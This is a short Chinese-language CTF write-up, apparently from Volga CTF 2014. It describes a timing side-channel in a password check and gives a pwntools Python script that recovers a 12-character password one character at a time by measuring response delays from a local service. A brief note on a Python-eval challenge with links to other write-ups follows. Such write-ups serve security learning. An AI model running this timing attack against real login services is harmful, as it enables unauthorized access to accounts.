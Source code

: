 簡單講就是如果有一個密碼匹配就會將 v5 + 1

那他去計算 v7 的長度是 0xdeadbeee << 這非常大

代表我們可以利用時間差去攻擊

第一次輸入
111111111111

瞬間回復代表沒一個中，之後輸入

a11111111111 

如果卡很久就知道第一個密碼是 a

之後改成輸入
1a1111111111 

這樣來判斷第二個密碼，可以慢慢把答案 leak 出來

```python
#!/usr/bin/env python
from pwn import *
import string
allword = string.printable
fake_pw = 'gggggggggggg'
pw = 'password: '
count = 0
while True:
	r = remote('127.0.0.1', 7026)
	r.recvline()
	for i in allword:
		fake = fake_pw[:count] + i + fake_pw[count+1:]
		print "now send:",fake
		r.sendline(fake)
		a = r.recvrepeat(0.4)
		if len(a) == 0:
			pw += i 
			count += 1
			print pw
			r.close
			break
		print "now a:",repr(a),len(a)
	if count == 12:
		break
```

## 300

隨便亂輸入會得到 "Exception: name 'asd' is not defined"

拿去 google 可以知道是 python 

然後目標是讀取其家目錄的 FLAG

相關Write up 參考
[參考 1](http://sigint.ru/writeups/2014/04/07/volga-ctf-2014-writeups/#exploits-300)
[參考 2](https://ctftime.org/writeup/1025)
